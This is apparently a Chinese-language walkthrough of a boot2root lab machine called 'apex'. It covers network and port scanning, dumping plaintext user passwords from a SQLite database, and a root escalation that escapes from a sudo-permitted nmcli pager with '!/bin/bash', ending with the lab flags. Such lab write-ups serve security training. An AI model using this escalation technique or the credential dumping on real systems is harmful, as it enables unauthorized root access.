







## 网段扫描
```
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:df:e2:a7, IPv4: 192.168.26.128
WARNING: Cannot open MAC/Vendor file ieee-oui.txt: Permission denied
WARNING: Cannot open MAC/Vendor file mac-vendor.txt: Permission denied
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.26.1    00:50:56:c0:00:08       (Unknown)
192.168.26.2    00:50:56:e8:d4:e1       (Unknown)
192.168.26.198  00:0c:29:2d:10:94       (Unknown)
192.168.26.254  00:50:56:ea:6a:67       (Unknown)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.952 seconds (131.15 hosts/sec). 4 responded
```

## 端口扫描

```
└─# nmap -p- -sC -sV 192.168.26.198
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-22 07:45 EST
Nmap scan report for 192.168.26.198 (192.168.26.198)
Host is up (0.0012s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 f0:e6:24:fb:9e:b0:7a:1a:bd:f7:b1:85:23:7f:b1:6f (RSA)
|   256 99:c8:74:31:45:10:58:b0:ce:cc:63:b4:7a:82:57:3d (ECDSA)
|_  256 60:da:3e:31:38:fa:b5:49:ab:48:c3:43:2c:9f:d1:32 (ED25519)
79/tcp open  finger  Linux fingerd
|_finger: No one logged on.\x0D
80/tcp open  http    Apache httpd 2.4.62 ((Debian))
|_http-title: The all seeing eye...
|_http-server-header: Apache/2.4.62 (Debian)
MAC Address: 00:0C:29:2D:10:94 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.21 seconds
```

## 获取webshell
  
  
   
  
```
# strings database.db            
SQLite format 3
Wtableusersusers
CREATE TABLE users (
    id INTEGER PRIMARY KEY,
    user TEXT NOT NULL,
    password TEXT NOT NULL
IosirisITA96l3isg4uV2Sm8eYn41XVfxprFy&
IsethHm7iYkj2jXDxPUwoW2COs42YjPaC4P&
IamonxqRu08ZA3BihR4lKdJVYcP1x6HjZUf(
IanubisL44NxKRnP7wxrBsxibpDORySkbEHRO
                                                                                                                                                                                             
┌──(root㉿LingMj)-[/home/lingmj/xxoo]
└─# sqlite3 database.db    
SQLite version 3.45.3 2024-04-15 13:34:05
Enter ".help" for usage hints.
sqlite> hel
   ...> ehlp
   ...> help
   ...> .help
   ...> 
   ...> ;
Parse error: near "hel": syntax error
  hel ehlp help .help  ;
  ^--- error here
sqlite> help;
Parse error: near "help": syntax error
  help;
  ^--- error here
sqlite> .help;
Error: unknown command or invalid arguments:  "help;". Enter ".help" for help
sqlite> show tables;
Parse error: near "show": syntax error
  show tables;
  ^--- error here
sqlite> .help
.archive ...             Manage SQL archives
.auth ON|OFF             Show authorizer callbacks
.backup ?DB? FILE        Backup DB (default "main") to FILE
.bail on|off             Stop after hitting an error.  Default OFF
.cd DIRECTORY            Change the working directory to DIRECTORY
.changes on|off          Show number of rows changed by SQL
.check GLOB              Fail if output since .testcase does not match
.clone NEWDB             Clone data into NEWDB from the existing database
.connection [close] [#]  Open or close an auxiliary database connection
.databases               List names and files of attached databases
.dbconfig ?op? ?val?     List or change sqlite3_db_config() options
.dbinfo ?DB?             Show status information about the database
.dump ?OBJECTS?          Render database content as SQL
.echo on|off             Turn command echo on or off
.eqp on|off|full|...     Enable or disable automatic EXPLAIN QUERY PLAN
.excel                   Display the output of next command in spreadsheet
.exit ?CODE?             Exit this program with return-code CODE
.expert                  EXPERIMENTAL. Suggest indexes for queries
.explain ?on|off|auto?   Change the EXPLAIN formatting mode.  Default: auto
.filectrl CMD ...        Run various sqlite3_file_control() operations
.fullschema ?--indent?   Show schema and the content of sqlite_stat tables
.headers on|off          Turn display of headers on or off
.help ?-all? ?PATTERN?   Show help text for PATTERN
.import FILE TABLE       Import data from FILE into TABLE
.indexes ?TABLE?         Show names of indexes
.limit ?LIMIT? ?VAL?     Display or change the value of an SQLITE_LIMIT
.lint OPTIONS            Report potential schema issues.
.load FILE ?ENTRY?       Load an extension library
.log FILE|on|off         Turn logging on or off.  FILE can be stderr/stdout
.mode MODE ?OPTIONS?     Set output mode
.nonce STRING            Suspend safe mode for one command if nonce matches
.nullvalue STRING        Use STRING in place of NULL values
.once ?OPTIONS? ?FILE?   Output for the next SQL command only to FILE
.open ?OPTIONS? ?FILE?   Close existing database and reopen FILE
.output ?FILE?           Send output to FILE or stdout if FILE is omitted
.parameter CMD ...       Manage SQL parameter bindings
.print STRING...         Print literal STRING
.progress N              Invoke progress handler after every N opcodes
.prompt MAIN CONTINUE    Replace the standard prompts
.quit                    Stop interpreting input stream, exit if primary.
.read FILE               Read input from FILE or command output
.recover                 Recover as much data as possible from corrupt db.
.restore ?DB? FILE       Restore content of DB (default "main") from FILE
.save ?OPTIONS? FILE     Write database to FILE (an alias for .backup ...)
.scanstats on|off|est    Turn sqlite3_stmt_scanstatus() metrics on or off
.schema ?PATTERN?        Show the CREATE statements matching PATTERN
.separator COL ?ROW?     Change the column and row separators
.session ?NAME? CMD ...  Create or control sessions
.sha3sum ...             Compute a SHA3 hash of database content
.shell CMD ARGS...       Run CMD ARGS... in a system shell
.show                    Show the current values for various settings
.stats ?ARG?             Show stats or turn stats on or off
.system CMD ARGS...      Run CMD ARGS... in a system shell
.tables ?TABLE?          List names of tables matching LIKE pattern TABLE
.timeout MS              Try opening locked tables for MS milliseconds
.timer on|off            Turn SQL timer on or off
.trace ?OPTIONS?         Output each SQL statement as it is run
.version                 Show source, library and compiler versions
.vfsinfo ?AUX?           Information about the top-level VFS
.vfslist                 List all available VFSes
.vfsname ?AUX?           Print the name of the VFS stack
.width NUM1 NUM2 ...     Set minimum column widths for columnar output
sqlite> show tables;
Parse error: near "show": syntax error
  show tables;
  ^--- error here
sqlite> .tables;
Error: unknown command or invalid arguments:  "tables;". Enter ".help" for help
sqlite> .tables 
users
sqlite> SELECT * FROM users
   ...> ;
1|anubis|L44NxKRnP7wxrBsxibpDORySkbEHRO
2|amon|xqRu08ZA3BihR4lKdJVYcP1x6HjZUf
3|seth|Hm7iYkj2jXDxPUwoW2COs42YjPaC4P
4|osiris|ITA96l3isg4uV2Sm8eYn41XVfxprFy
sqlite> 
```
  


## 提权
  

>无信息，提权工具使用
>
  

```
seth@apex:~$ /usr/sbin/sudo /usr/bin/nmcli connection show
NAME         UUID                                  TYPE  DEVICE 
MikroTik_AP  e25d230b-bb26-4488-b2e0-1b94dac2b9cd  wifi  --     
seth@apex:~$ /usr/sbin/sudo /usr/bin/nmcli connection edit
Tipos de conexión válidos: 6lowpan, 802-11-olpc-mesh (olpc-mesh), 802-11-wireless (wifi), 802-3-ethernet (ethernet), adsl, bluetooth, bond, bridge, cdma, dummy, generic, gsm, infiniband, ip-tunnel, macsec, macvlan, ovs-bridge, ovs-dpdk, ovs-interface, ovs-patch, ovs-port, pppoe, team, tun, veth, vlan, vpn, vrf, vxlan, wifi-p2p, wimax, wireguard, wpan, bond-slave, bridge-slave, team-slave
Introduzca el tipo de conexión: id
Error: el tipo de conexión no es válido; «id» no está entre [6lowpan, 802-11-olpc-mesh (olpc-mesh), 802-11-wireless (wifi), 802-3-ethernet (ethernet), adsl, bluetooth, bond, bridge, cdma, dummy, generic, gsm, infiniband, ip-tunnel, macsec, macvlan, ovs-bridge, ovs-dpdk, ovs-interface, ovs-patch, ovs-port, pppoe, team, tun, veth, vlan, vpn, vrf, vxlan, wifi-p2p, wimax, wireguard, wpan, bond-slave, bridge-slave, team-slave]
Introduzca el tipo de conexión: exit
Error: el tipo de conexión no es válido; «exit» no está entre [6lowpan, 802-11-olpc-mesh (olpc-mesh), 802-11-wireless (wifi), 802-3-ethernet (ethernet), adsl, bluetooth, bond, bridge, cdma, dummy, generic, gsm, infiniband, ip-tunnel, macsec, macvlan, ovs-bridge, ovs-dpdk, ovs-interface, ovs-patch, ovs-port, pppoe, team, tun, veth, vlan, vpn, vrf, vxlan, wifi-p2p, wimax, wireguard, wpan, bond-slave, bridge-slave, team-slave]
Introduzca el tipo de conexión: ^C
seth@apex:~$ /usr/sbin/sudo /usr/bin/nmcli connection edit e25d230b-bb26-4488-b2e0-1b94dac2b9cd

===| Editor de conexión interactivo de nmcli |===

Modificando la conexión «802-11-wireless» existente: «e25d230b-bb26-4488-b2e0-1b94dac2b9cd»

Escriba «help» o «?» para comandos disponibles.
Escriba «print» para mostrar todas las propiedades de conexión.
Escriba «describe [<parámetro>.<prop>]» para una descripción de propiedad detallada.

Puede modificar los siguientes parámetros: connection, 802-11-wireless (wifi), 802-11-wireless-security (wifi-sec), 802-1x, ethtool, match, ipv4, ipv6, hostname, tc, proxy
nmcli> ?
------------------------------------------------------------------------------
---[ Menú principal ]---
goto     [<parámetro> | <prop>]         :: ir a parámetro o propiedad
remove   <parámetro>[.<prop>] | <prop>  :: retirar parámetro o restablecer valor de propiedad
set      [<parámetro>.<prop> <valor>]   :: establecer valor de propiedad
describe [<parámetro>.<prop>]           :: describir propiedad
print    [all | <parámetro>[.<prop>]]   :: imprimir la conexión
verify   [all | fix]                    :: verificar la conexión
save     [persistent|temporary]         :: guardar la conexión
activate [<ifname>] [/<ap>|<nsp>]       :: activar la conexión
back                                    :: ir a un nivel superior (atrás)
help/?   [<comando>]                    :: imprimir esta ayuda
nmcli    <opción-conf> <valor>          :: configuración nmcli 
quit                                    :: salir de nmcli
------------------------------------------------------------------------------
nmcli> ;di
Comando desconocido: «;di»
nmcli> ;id
Comando desconocido: «;id»
nmcli> id
Comando desconocido: «id»
nmcli> print /root/roo.txt
Error: parámetro desconocido: «/root/roo»
nmcli> print /root/root.txt
Error: parámetro desconocido: «/root/root»
nmcli> print /root/root
Error: parámetro desconocido: «/root/root»
nmcli> exit
Comando desconocido: «exit»
nmcli> ^C
nmcli> ^C
nmcli> 
[1]+  Detenido                /usr/sbin/sudo /usr/bin/nmcli connection edit e25d230b-bb26-4488-b2e0-1b94dac2b9cd
seth@apex:~$ /usr/sbin/sudo /usr/bin/nmcli connectio show
NAME         UUID                                  TYPE  DEVICE 
MikroTik_AP  e25d230b-bb26-4488-b2e0-1b94dac2b9cd  wifi  --     
seth@apex:~$ /usr/sbin/sudo /usr/bin/nmcli connectio show MikroTik_AP
connection.id:                          MikroTik_AP
connection.uuid:                        e25d230b-bb26-4488-b2e0-1b94dac2b9cd
connection.stable-id:                   --
connection.type:                        802-11-wireless
connection.interface-name:              --
connection.autoconnect:                 sí
connection.autoconnect-priority:        0
connection.autoconnect-retries:         -1 (default)
connection.multi-connect:               0 (default)
connection.auth-retries:                -1
connection.timestamp:                   0
connection.read-only:                   no
connection.permissions:                 --
connection.zone:                        --
connection.master:                      --
connection.slave-type:                  --
connection.autoconnect-slaves:          -1 (default)
connection.secondaries:                 --
connection.gateway-ping-timeout:        0
connection.metered:                     desconocido
connection.lldp:                        default
connection.mdns:                        -1 (default)
connection.llmnr:                       -1 (default)
connection.wait-device-timeout:         -1
802-11-wireless.ssid:                   MikroTik_AP
802-11-wireless.mode:                   infrastructure
802-11-wireless.band:                   --
802-11-wireless.channel:                0
802-11-wireless.bssid:                  --
802-11-wireless.rate:                   0
802-11-wireless.tx-power:               0
802-11-wireless.mac-address:            --
802-11-wireless.cloned-mac-address:     --
802-11-wireless.generate-mac-address-mask:--
802-11-wireless.mac-address-blacklist:  --
802-11-wireless.mac-address-randomization:default
802-11-wireless.mtu:                    auto
802-11-wireless.seen-bssids:            --
802-11-wireless.hidden:                 no
802-11-wireless.powersave:              0 (default)
802-11-wireless.wake-on-wlan:           0x1 (default)
802-11-wireless.ap-isolation:           -1 (default)
802-11-wireless-security.key-mgmt:      wpa-psk
!/bin/bash
root@apex:/home/seth# id
uid=0(root) gid=0(root) grupos=0(root)
root@apex:/home/seth# 
```
>当然还存在第二个方法
>

  

  


>到这里靶机就结束了
>
>userflag:cb991ca285fc33a6d0ea1cab5f65d3ce
>
>rootflag:c03c45d855d3b683b1637d3b93ead481
>